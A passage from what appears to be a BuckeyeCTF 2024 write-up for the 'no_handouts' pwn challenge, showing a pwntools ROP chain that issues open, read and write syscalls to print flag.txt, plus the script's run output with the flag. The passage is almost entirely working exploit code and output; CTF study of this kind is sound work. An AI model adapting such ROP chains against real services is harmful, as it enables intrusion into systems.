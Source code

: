 ```py
payload += p64(target_address)
payload += p64(pop_rsi_ret)
payload += p64(0)
payload += p64(pop_rdx_rbx_ret)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax_ret)
payload += p64(2)
payload += p64(syscall)

## read './flag.txt'
payload += p64(pop_rdi_ret)
payload += p64(3)
payload += p64(pop_rsi_ret)
payload += p64(target_address)
payload += p64(pop_rdx_rbx_ret)
payload += p64(0xff)
payload += p64(0)
payload += p64(pop_rax_ret)
payload += p64(0)
payload += p64(syscall)

## write './flag.txt'
payload += p64(pop_rdi_ret)
payload += p64(1)
payload += p64(pop_rsi_ret)
payload += p64(target_address)
payload += p64(pop_rdx_rbx_ret)
payload += p64(0xff)
payload += p64(0)
payload += p64(pop_rax_ret)
payload += p64(1)
payload += p64(syscall)

r.sendline(payload)
r.sendline(b'flag.txt\x00')

r.interactive()
```
when we execute this python script, we have the flag printed to `stdout`
```bash
fooker@fooker:~/buckeyectf2024/pwn/no_handouts/program$ python3 exploit.py
[*] '~/buckeyectf2024/pwn/no_handouts/program/chall_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[+] Opening connection to challs.pwnoh.io on port 13371: Done
0x7f220406b000
[*] Switching to interactive mode
Surely that's not enough information to do anything else.
bctf{sh3lls_ar3_bl0at_ju5t_use_sh3llcode!}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```